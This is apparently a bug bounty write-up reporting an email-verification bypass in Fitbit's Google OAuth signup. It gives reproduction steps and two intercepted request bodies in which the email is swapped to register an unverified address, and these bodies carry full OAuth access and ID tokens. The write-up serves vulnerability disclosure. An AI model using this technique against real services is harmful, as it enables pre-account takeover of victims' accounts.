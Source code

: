 +++
title = " Unauthorization of Oauth Token Leads to Pre Account Takeover without Verifying"
date = "2022-03-08"
author = "0xdroopy"


+++

## Summary 

On Fitbit official website I was able to register with any account without verifying the email because of the vulnerability Broken Authentication. This was due to the unauthorization of the Oauth token with respect to the email address which was being transferred to the server.

{{< image src="https://miro.medium.com/max/1400/1*3z3zxJj_GzArgT2SIy529w.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Functionalities
On fitbit.com there are 2 functionalities to register in the account. One is normal functionality of email address and password whereas other is the functionality of Oauth by which you can register using your google account. In the Oauth functionality, after logging through you would be directly be logged in to the account. Whereas in the normal functionality, you have to verify the email in order to go for further registration of details.
  
### Functionalities On Register Page
{{< image src="https://i.ibb.co/0C7Y3Nm/1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

### When Try to Register Using Normal Functionality, Verification is Needed.
{{< image src="https://i.ibb.co/bKdmRKZ/2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## The Unauthorization of Oauth Token

By logging through the Oauth Functionality, accounts.google.com sends the Oauth Token to the website who requested to be logged in using Google Functionality. Then the website authorize the token and thus extracts the email address fromit. The authorization of the Oauth Token and the Email Address go step by step till the end of the registration of the account. At the end the server uses the cookies same as the oauth token being provided for further logins.

{{< image src="https://i.ibb.co/NytTGVh/3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Steps To Reproduce

1) Make Two New Google Accounts and name them as Account 1 and Account 2.

2) Go to https://accounts.fitbit.com/signup and now login with the Account 1 using Google Oauth Functionality.

3) Now after clicking next put your height , weight etc. and Start intercepting the requests.

4) After that Click Submit and in the burp suite change the email address from Account 1 to Account 2.


```json
email=testemailaddressforfit1%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF
```

To -

```json
email=testemailaddressforfit2%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF

```

5) After Forwarding the request , you would be successfully signed up with the Account 2 Email address without verifying.

{{< image src="https://i.ibb.co/pn3r3qw/4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

 
## Demonstration

{{<iframe width="420" height="315"
src="https://www.youtube.com/embed/DjbVqwm3DtI">
</iframe>}}

## Attack Scenario

Here attack scenario is very clear, the attacker can easily register with any account he wanted to and hijack it without confirming the email address which would lead to a pre-account takeover. This can make the attacker change everything in the account and giving the victim only way to recover account via password reset.
